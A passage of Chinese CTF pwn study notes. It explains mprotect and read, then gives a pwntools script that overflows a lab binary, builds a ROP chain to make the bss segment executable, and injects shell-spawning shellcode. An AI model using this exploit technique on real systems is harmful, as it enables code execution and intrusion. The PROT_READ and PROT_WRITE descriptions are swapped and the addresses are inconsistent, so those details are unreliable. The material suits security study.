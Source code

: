 ```python
mov rax, 1
syscall
'''
payload = asm(shellcode)

```



### 链接：

#### 静态动态链接 

##### 1.静态--mprotect

**函数原型：int mprotect(void *addr, size_t len, int prot);**

![1733396345146](C:\Users\16082\AppData\Roaming\Typora\typora-user-images\1733396345146.png)

prot可以取以下几个值，并且可以用“|”将几个属性合起来使用：  

1）PROT_READ：表示内存段内的内容可写； 　 

2）PROT_WRITE：表示内存段内的内容可读； 　 

3）PROT_EXEC：表示内存段中的内容可执行； 　 

4）PROT_NONE：表示内存段中的内容根本没法访问。 　 

5） prot=7 是可读可写可执行 

**read函数原型: ssize_t read(int fd, void *buf, size_t count); **

1）fd 设为0时就可以从输入端读取内容 设为0  

2）buf 设为我们想要执行的内存地址 设为我们已找到的内存地址0x80EB000  

3）size 适当大小就可以 只要够读入shellcode就可以，设置大点无所谓 可以看到read函数也有三个参数要设置，我们就可以继续借用上面找到的有3个寄存器的ret指令

**利用这个函数把段的属性改成可读可写可执行，进而执行shellcode **  

```python
#32位的mprotect利用
#获取信息，填写攻击信息
elf = ELF('./pwn')
mprotect = elf.sym['mprotect']
read_addr = elf.sym['read']
pop_ebx_esi_ebp_ret = 0x80a019b  #0x080a019b : pop ebx ; pop esi ; pop ebp ; 
ret	#为了调用三个参数的函数
M_addr = 0x80DA000	#bss地址
M_size = 0x1000	#空间大小
M_proc = 0x7	#改变的属性

payload = cyclic(0x12+4) + p32(mprotect) #进入mprotect
payload += p32(pop_ebx_esi_ebp_ret) + p32(M_addr) + p32(M_size) + 
p32(M_proc)	#填写函数参数
payload += p32(read_addr)	#进入read函数
payload += p32(pop_ebx_esi_ebp_ret) + p32(0) + p32(M_addr) + p32(M_size) + 
p32(M_addr)	#再次填写函数的参数

#发送攻击
io.sendline(payload)
shellcode = asm(shellcraft.sh())
io.sendline(shellcode)


#64位
#step2 : mprotect_bss_to_rwx
#能ret2libc就用，比这个快
#主要区别还是函数的传参规则不一样
```